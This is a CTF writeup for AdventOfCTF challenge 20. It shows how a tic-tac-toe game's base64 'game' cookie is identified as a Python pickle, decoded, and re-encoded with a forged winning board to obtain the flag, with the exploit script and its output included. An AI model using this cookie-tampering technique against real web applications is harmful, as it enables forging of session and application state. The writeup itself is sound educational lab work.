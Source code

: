 +++
author = "Maik de Kruif"
title = "Challenge 20 - AdventOfCTF"
date = 2021-02-26T00:11:35+01:00
description = "A writeup for challenge 20 of AdventOfCTF."
cover = "img/adventofctf/c1f93b6ee2e1cd25ea02f9a78c364b12.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "python",
    "serialization",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 2000

## Description

To pass the time until Christmas the elves challenge Santa to a game of tic-tac-toe. Santa plays X, can you make him win?

Visit https://20.adventofctf.com to start the challenge.

## Recon

When looking around on the page, we can see a tic tac toe board with two links in it. These links direct to `/play/y/x` and place an `O` on the board. After placing it, `O` wins.

If we take a look at the source, we also find a bit of javascript:

```js
function send() {
  let emoji = $("#emoji")[0].value;
  if (emoji.length > 0) {
    $.post("/", { emoji: emoji }, function (data) {
      $("#msg")[0].innerHTML = "<b>" + data + "</b>";
    });
  }
}
```

This code doesn't seem to be used though and I don't see what it would be used for so we'll ignore it for now.

Lastly, we can check the cookies on the website. Here we can find the `game` cookie. It looks like it's some `base64` encoded data.

```text
game=gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu
```

## Finding the vulnerability

We will start by having a look at the `game` cookie. If we base64 decode it we do see some information about a board, but its not plain text.

```bash
echo -n "gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu" | base64 -d
```

```text
�}q(Xboardq]q(]q(XOqhNe]q(hXXqhe]q(NhheeXturnhfinishedq	�Xwinnerq
NXsaneq
       �u.⏎
```

By the looks of it, it might be a serialized object but we don't know where it came from.

To find out what the backend framework of the server is, we can look at the `Server` header in the http response. This is not always filled in with useful information, but this time it was.

```text
Server: Werkzeug/1.0.1 Python/3.7.10
```

Here we can see the website uses Python for the backend. This narrows the amount of possible serialization libraries down a lot. A common library used for this in Python is Pickle.

To test whether the cookie is encoded pickle data, we can use the pickle's `loads` function to import the data from a string:

```text
>>> import pickle
>>> import base64
>>> pickle.loads(base64.b64decode("gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu"))
{'board': [['O', 'O', None], ['O', 'X', 'X'], [None, 'X', 'X']], 'turn': 'O', 'finished': False, 'winner': '', 'sane': True}
```

Yes! It's using pickle and we can now try to alter the board.

## Exploit

To alter the board, we can write a little Python script like the following. You can't just put three `X` in a row as the backend checks the game state. To get around this, we can just place a few `O` on the board.

```py
import base64
import pickle

board_b64 = "gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu"

data = pickle.loads(base64.b64decode(board_b64))

data["board"] = [['X', 'X', 'X'], ['O', None, None], [None, None, 'O']]
data["winner"] = 'X'
data["turn"] = 'O'

print(base64.b64encode(pickle.dumps(data)))
```

```text
gASVVwAAAAAAAAB9lCiMBWJvYXJklF2UKF2UKIwBWJRoBGgEZV2UKIwBT5ROaAZlXZQoTk5OZWWMBHR1cm6UaAaMCGZpbmlzaGVklImMBndpbm5lcpRoBIwEc2FuZZSIdS4=
```

We can then replace the `game` cookie with this string and reload the page.

## Solution

We got the flag! It is `NOVI{p1ckle_r1ck}`.

